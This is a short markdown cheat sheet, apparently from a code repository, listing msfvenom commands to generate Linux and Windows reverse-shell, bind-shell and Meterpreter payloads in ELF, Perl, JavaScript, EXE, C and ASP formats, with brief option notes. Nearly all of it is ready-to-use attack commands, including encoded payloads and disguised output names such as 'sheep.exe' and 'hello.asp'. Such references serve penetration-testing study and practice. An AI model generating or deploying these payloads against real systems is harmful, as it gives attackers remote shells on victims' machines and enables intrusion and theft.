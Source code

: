 # Msfvenom

```bash
msfvenom --payload-options
```

> Options: lists the payload options for msfvenom

## Non-Staged

```bash
msfvenom -a x86 --platform linux -p linux/x86/shell_reverse_tcp LHOST=<host> LPORT=<port> -b "\x00" -f elf -o non_staged_reverse_tcp
```

> Options: 32bit architecture, linux platform, linux reverse shell payload, local host, local port, bad characters, shell format (elf), output to file

## Staged

```bash
msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST=<host> LPORT=<port> -b "\x00" -f elf -o staged_reverse_tcp
```

> Options: 32bit architecture, linux platform, linux reverse shell payload, local host, local port, bad characters, shell format (elf), output to file

## Linux Reverse Shell

```bash
msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST=192.168.1.101 LPORT=<port> -b "\x00" -f elf -o rs
```

## Perl

```bash
msfvenom -a x86 --platform linux -p linux/x86/shell_reverse_tcp LHOST=<host> LPORT=<port> -b "\x00" -f perl -o plrs.pl
```

## Javascript

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.60 LPORT=<port> -f js_le
```

> Options: 32bit architecture little endian

## Windows Meterpreter

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<host> LPORT=<port> -b "\x00" -f exe -o sheep.exe
```

> Options: windows meterpreter reverse shell payload, local host, local port, bad characters, shell format (exe), output to file

## Windows Reverse Shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<host> LPORT=<port> -e x86/shikata_ga_nai -b "\x00" -f c
```

> Options: windows reverse shell payload, local host, local port, encode payload, bad characters, shell format (c)

## Windows Bind  Shell

```bash
msfvenom -p windows/shell_bind_tcp LHOST=<host> LPORT=<port> -e x86/shikata_ga_nai -b "\x00" -f c
```

> Options: windows bind shell payload, local host, local port, encode payload, bad characters, shell format (c)

## ASP

```bash
msfvenom -a x86 --platform window -p windows/meterpreter/reverse_tcp LHOST=<host> LPORT=<port> -f asp -o hello.asp
```

> Options: 32bit architecture, windows platform, windows reverse shell payload, local host, local port, bad characters, shell format (asp), output to file
